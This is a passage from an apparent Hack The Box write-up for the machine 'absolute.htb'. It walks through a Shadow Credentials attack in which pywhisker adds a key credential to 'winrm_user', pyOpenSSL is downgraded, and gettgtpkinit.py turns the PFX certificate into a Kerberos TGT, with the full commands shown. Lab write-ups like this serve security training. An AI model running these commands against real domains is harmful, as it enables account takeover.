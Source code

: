<u>Option 2 - pywhisker:</u>

- Pywhisker is a remote version of Whisker.exe written in python.
It will get us a PFX Certificate for PKINIT Kerberos authentication and a password for it

<https://github.com/ShutdownRepo/pywhisker>

```bash
python3 pywhisker.py -d absolute.htb -u "m.lovegod" -k -t "winrm_user" --action "add" --dc-ip 10.129.229.59

```

![image54](../resources/1d5501e40efc4526b6ce33ca33c2f4bc.png)

- If you get the error:

![image55](../resources/52f8bcfafa1042a3be71aa2c34f265e9.png)
- Downgrade OpenSSL:

```bash
pip install pyOpenSSL 23.0.0

```
- Now using PKINIT Tools, we can get a TGT from the PFX certificate using gettgtpkinit.py:
<https://github.com/dirkjanm/PKINITtools/tree/master>

```bash
python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx WmEE6V3q.pfx -pfx-pass LHDludLCpgVu8rQCbDAF winrm_user.ccache

```

![image56](../resources/0f7f9255f7454147a336f348a24528ea.png)
